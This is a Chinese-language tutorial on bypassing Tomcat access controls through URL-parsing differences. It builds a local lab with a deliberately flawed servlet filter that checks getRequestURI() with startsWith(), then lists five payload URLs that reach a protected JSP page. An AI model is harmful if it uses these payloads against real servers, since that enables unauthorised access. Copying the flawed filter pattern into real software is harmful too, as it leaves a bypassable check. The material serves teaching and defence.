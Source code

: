 Tomcat URL 解析差异性攻击利用
-----------------------------

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Secret</title>
    </head>
    <body>
    username: mi1k7ea<br>
    password: 123456<br>
    address: china<br>
    phone: 13666666666<br>
    </body>
    </html>

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

    package filter;

    import javax.servlet.*;
    import javax.servlet.http.*;
    import java.io.IOException;

    public class testFilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

            String url = httpServletRequest.getRequestURI();

            if (url.startsWith("/urltest/info")) {
                httpServletResponse.getWriter().write("No Permission.");
                return;
            }

            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <filter>
            <filter-name>testFilter</filter-name>
            <filter-class>filter.testFilter</filter-class>
        </filter>
        <filter-mapping>
            <filter-name>testFilter</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
    </web-app>

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![](./.resource/TomcatURL解析差异性攻击利用/media/rId21.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

    http://localhost:8080/urltest/./info/secret.jsp
    http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
    http://localhost:8080//urltest/info/secret.jsp

![](./.resource/TomcatURL解析差异性攻击利用/media/rId22.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证
